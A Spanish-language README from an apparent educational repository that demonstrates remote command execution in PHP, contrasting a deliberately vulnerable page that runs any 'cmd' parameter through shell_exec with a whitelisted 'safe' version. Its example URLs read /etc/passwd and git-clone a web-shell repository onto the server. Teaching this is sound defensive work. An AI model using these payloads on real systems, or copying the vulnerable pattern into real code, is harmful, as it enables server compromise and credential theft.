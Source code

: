 # Ejemplo de la vulnerabilidad RCE

Una vulnerabilidad RCE consiste en ejecutar comandos de forma remota en el servidor para acceder a él o para instalar malware en el servidor.

### Vulnerable Website
http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php

En este sitio puedes enviar un comando y el servidor lo ejecutara, puedes probar con el comando ls.
```
<?php
ini_set('display_errors', 1);
error_reporting(E_ALL);
/* If the parameter cmd not exists finish the execution */
if (!isset($_GET['cmd'])) {
	die("Falta el parametro cmd");
}
$output = shell_exec($_GET['cmd']);
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
```

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php?cmd=ls

![alt text](./images/ls_example.png)

Ejecutando un comando git clone podrias instalar un repositorio de Github en el servidor.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php?cmd=git%20clone%20https://github.com/xl7dev/WebShell.git

*Es posible que necesite modificar los permisos de la carpeta para hacer esto*

Tambien podrias tratar de obtener el fichero etc/passwd.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php?cmd=cat%20/etc/passwd

![alt text](./images/passwd_example.png)

### Sitio web seguro.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_safe.php

Aunque lo ideal sería no permitir al sitio web ejecutar comandos ai necesitamos la ejecución de determinados comandos podemos crear una lista blanca de los comandos que vamos a jeecutar.

```
<?php
ini_set('display_errors', 1);
error_reporting(E_ALL);
/*Array with the allowed commands to execute in the server */
$allowed_cmds = ["ls", "whoami", "pwd"];

/* If the parameter cmd not exists or isn't in the list finish the execution */
if (!isset($_GET['cmd']) || !in_array($_GET['cmd'], $allowed_cmds)) {
	die("Falta el parametro cmd  o ha insertado un comando no valido");
}

/* Execute the command in the cmd parameter and shows the output */
$output = shell_exec(escapeshellarg($_GET['cmd']));
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
```
Si ejecutamos un comando no permitido se detendra la ejecución antes de ejecutarlo.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_safe.php?cmd=cat%20/etc/passwd

![alt text](./images/fail_passwd_example.png)
